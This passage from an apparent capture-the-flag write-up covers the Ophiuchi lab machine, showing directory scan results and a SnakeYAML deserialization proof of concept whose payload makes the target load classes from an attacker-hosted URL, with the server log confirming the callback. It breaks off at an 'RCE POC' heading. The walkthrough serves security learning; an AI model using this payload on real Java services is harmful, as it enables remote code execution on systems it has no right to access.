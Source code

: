     ===============================================================
    /test (Status: 302)
    /manager (Status: 302)                                                               
    ===============================================================
    2021/02/14 13:57:58 Finished                                                         
    ===============================================================



`/manager` is the Tomcat manager page, which needs creds, and the
defaults don't work.

`/test` redirects to `/test/` which is 404.

## Shell as tomcat

### Deserialization POC

YAML parsers are notoriously bad with safely handling data serialized
data. Thinking about what the site is (or will be?) doing with input, it
will try to parse the YAML into objects, which is deserialization.

Despite the site saying it's down, it's not clear if that is displayed
before or after trying to deserialize the user input. I'll try a YAML
derserialization payload just to check. Since the server is Tomcat, I'll
look for Java-based payloads. In Googling "Java YAML deserialization",
there are a handful of blog posts about the topic. [This
post](https://medium.com/@swapneildash/snakeyaml-deserilization-exploited-b4a2c5ac0858)
has a nice test to see if Java Yaml deserialization would work, which
when adapted for Ophiuchi becomes:



    !!javax.script.ScriptEngineManager [
      !!java.net.URLClassLoader [[
        !!java.net.URL ["http://10.10.14.7/"]
      ]]
    ]



I'll start a Python webserver and put that into the form. On submitting,
there's a request:



    oxdf@parrot$ sudo python3 -m http.server 80
    Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
    10.10.10.227 - - [14/Feb/2021 16:33:34] code 404, message File not found
    10.10.10.227 - - [14/Feb/2021 16:33:34] "HEAD /META-INF/services/javax.script.ScriptEngineFactory HTTP/1.1" 404 -



This means the POC worked.

### RCE POC
